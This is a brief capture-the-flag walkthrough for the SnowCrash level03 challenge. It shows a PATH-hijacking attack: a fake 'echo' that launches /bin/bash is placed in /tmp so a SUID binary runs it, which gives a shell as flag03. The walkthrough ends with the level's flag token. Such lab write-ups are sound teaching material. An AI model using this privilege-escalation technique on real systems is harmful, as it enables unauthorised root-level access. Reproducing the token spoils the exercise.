 There is a binary 32 bits file called : level03
The SUID bit is set.

When decompiling the program we see it executes this command with the system function :
```bash
/usr/bin/env echo Exploit me
```

Let's replace the echo command by a malicious echo.

1. First, let's create a file in /tmp that's called echo and let's write /bin/bash in it.
2. Then let's load our new path to echo to the PATH environment variable
```bash
> export PATH=/tmp:$PATH

Now the malicious echo will be found and executed first.

> ./level03
It works, we are now the flag03 user

> flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

*qi0maab88jeaj46qoumi7maus*